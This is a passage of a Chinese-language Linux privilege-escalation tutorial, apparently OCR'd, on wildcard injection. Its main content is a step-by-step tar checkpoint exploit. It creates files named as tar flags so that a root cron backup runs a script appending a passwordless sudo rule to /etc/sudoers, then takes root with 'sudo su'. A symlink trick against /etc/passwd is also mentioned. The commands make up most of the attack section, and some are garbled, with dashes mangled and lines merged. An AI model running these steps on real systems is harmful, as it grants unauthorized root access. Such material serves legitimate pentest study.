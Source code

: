 如果在同一目录中创建到**/ etc / passwd**的符号链接，则**/ etc / passwd**的所有者也将是您，这将使您获得root shell。

### 其他

### TAR

Tar是一个程序，可让您将文件收集到存档中。

在tar中，有“检查点”标志，这些标志使您可以在归档指定数量的文件后执行操作。由于我们可以使用通配符注入来注入那些标志，因此我们可以使用检查点来执行我们选择的命令。如果tar以root用户身份运行，则命令也将以root用户身份运行。

鉴于存在此漏洞，获得root用户特权的一种简单方法是使自己成为sudoer。sudoer是可以承担root特权的用户。这些用户在/etc/sudoers文件中指定。只需在该文件上追加一行，我们就可以使自己变得更轻松。

### 利用

假设我们有一个易受攻击的程序，并且使用cron定期运行该程序。该程序包含以下内容：

`cd important-directorytar cf /var/backups/backup.tar *`

进行根访问的步骤如下：

**1**）注入一个标志来指定我们的检查点

首先，我们将指定在归档一个文件之后，有一个检查点。稍后我们将对该检查点执行操作，但是现在我们仅告诉tar它存在。

让我们创建一个将注入标记的文件：

`cd important-directorytouch — —checkpoint=1`

**2**）编写恶意的**Shell**脚本

Shell脚本将`/etc/sudoers`在其后追加代码，这会使您变得更加无礼。

您需要添加到的行`/etc/sudoers`是`my-user ALL=(root) NOPASSWD: ALL`。

让我们创建shell脚本：

`echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > demo.sh`

Shell脚本应与通配符位于同一目录中。

请注意，我们将必须更改my-user为要成为sudoer的实际用户。

**3**）注入一个指定检查点动作的标志

现在，我们将指定，当tar到达在步骤＃1中指定的检查点时，它应运行在步骤＃2中创建的shell脚本：

`touch — “—checkpoint-action=exec=sh demo.sh”`

**4**）**root**

等待，直到cron执行了脚本并通过键入以下内容获得root特权：

`sudo su`

### rsync

Rsync是“快速，通用，远程（和本地）文件复制工具”，在linux系统上非常常见。

与rsync一起使用的一些有趣的标志是：
